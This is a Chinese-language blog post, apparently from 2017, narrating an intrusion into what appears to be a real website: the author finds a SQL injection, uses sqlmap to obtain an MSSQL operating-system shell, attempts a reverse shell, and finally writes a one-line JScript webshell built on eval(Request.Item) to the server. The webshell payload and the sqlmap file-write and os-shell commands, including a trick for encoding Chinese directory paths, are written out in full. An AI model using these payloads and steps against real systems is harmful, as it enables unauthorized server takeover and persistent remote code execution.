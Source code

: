 ```yaml
---
id: 26
title: 一注入到艰难的到上传webshell
date: 2017-08-11T13:21:50+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

故事的起因是一个注入  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-300x151.png" alt="" width="300" height="151" class="alignnone size-medium wp-image-27" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-300x151.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-768x386.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1024x514.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-830x417.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-230x116.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-350x176.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-480x241.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2.png 1236w" sizes="(max-width: 300px) 85vw, 300px" />  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-1-300x143.png" alt="" width="300" height="143" class="alignnone size-medium wp-image-28" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-300x143.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-768x367.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-1024x490.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-830x397.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-230x110.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-350x167.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1-480x230.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-1.png 1219w" sizes="(max-width: 300px) 85vw, 300px" />  
存在注入点  
神器sqlmap跑之  
得出是mssql数据库  
dba权限 –os-shell  
一切都按照故事的发生着可是  
当我执行net user 的时候问题发生了  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-2-300x85.png" alt="" width="300" height="85" class="alignnone size-medium wp-image-29" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-300x85.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-230x65.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-350x99.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2-480x136.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-2.png 576w" sizes="(max-width: 300px) 85vw, 300px" />  
百度一看权限不够 好吧 只能上传木马了  
开始找路径  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-3-300x161.png" alt="" width="300" height="161" class="alignnone size-medium wp-image-30" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-300x161.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-230x123.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-350x188.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3-480x258.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-3.png 518w" sizes="(max-width: 300px) 85vw, 300px" />  
路径名到这一步全是中文的 但是貌似sqlmap查询除了点问题  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-4-300x63.png" alt="" width="300" height="63" class="alignnone size-medium wp-image-31" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-300x63.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-230x48.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-350x74.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4-480x101.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-4.png 498w" sizes="(max-width: 300px) 85vw, 300px" />  
这里提示没有标签

到这一步就这样了么 不  
苦苦想终于想到了 我可以tree列举目录  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-5-300x227.png" alt="" width="300" height="227" class="alignnone size-medium wp-image-32" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-300x227.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-230x174.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-350x265.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5-480x363.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-5.png 611w" sizes="(max-width: 300px) 85vw, 300px" />  
中午跑了大概一小时吧  
还没跑完第一个目录  
当时心里是崩溃的  
无奈试试反弹shell吧 第一次用  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-6-300x159.png" alt="" width="300" height="159" class="alignnone size-medium wp-image-33" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-300x159.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-230x122.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-350x186.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6-480x255.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-6.png 765w" sizes="(max-width: 300px) 85vw, 300px" />  
结果试了好几种办法 无奈总是超时  
这是同事大牛说了句话 你可以查找一个html jpg啥的能搜索到绝对路径啊  
我当时头嗡的一下 一语重地啊  
很快找到绝对目录了

echo ^<^%^@ Page Language=”Jscript”^%^>^<^%eval^(Request.Item^[“value”^]^)^%^> > d:\……（绝对路径）

可是万恶的还是显示路径错误  
在网上找了好多终于有一种说在外部写可以  
sqlmap.py -r d://1.txt –hex –file-write d://2.txt –file-dest d:\\……  
可是又报错了  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-7-300x132.png" alt="" width="300" height="132" class="alignnone size-medium wp-image-34" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-300x132.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-230x102.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-350x155.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7-480x212.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-7.png 616w" sizes="(max-width: 300px) 85vw, 300px" />  
本来我以为没有上传权限后来才发现还是路径输入错误的问题

怎么办 后来大牛教的新姿势  
sqlmap.py -r d://1.txt &#8211;os&#8211;shell &#8211;hex &#8211;proxy=127.0.0.1:8080  
burpsuite监听之  
发现中文目录是ascii hex编码  
但是有错误 不知道是sqlmap的问题还是 中文的博大精深  
于是抓包把路径重新编码 在发送 成功echo 小马到服务端  
<img src="http://cuijianxiong.top/wp-content/uploads/2017/08/2-8-300x157.png" alt="" width="300" height="157" class="alignnone size-medium wp-image-35" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-300x157.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-768x403.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-830x435.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-230x121.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-350x183.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8-480x252.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/2-8.png 891w" sizes="(max-width: 300px) 85vw, 300px" />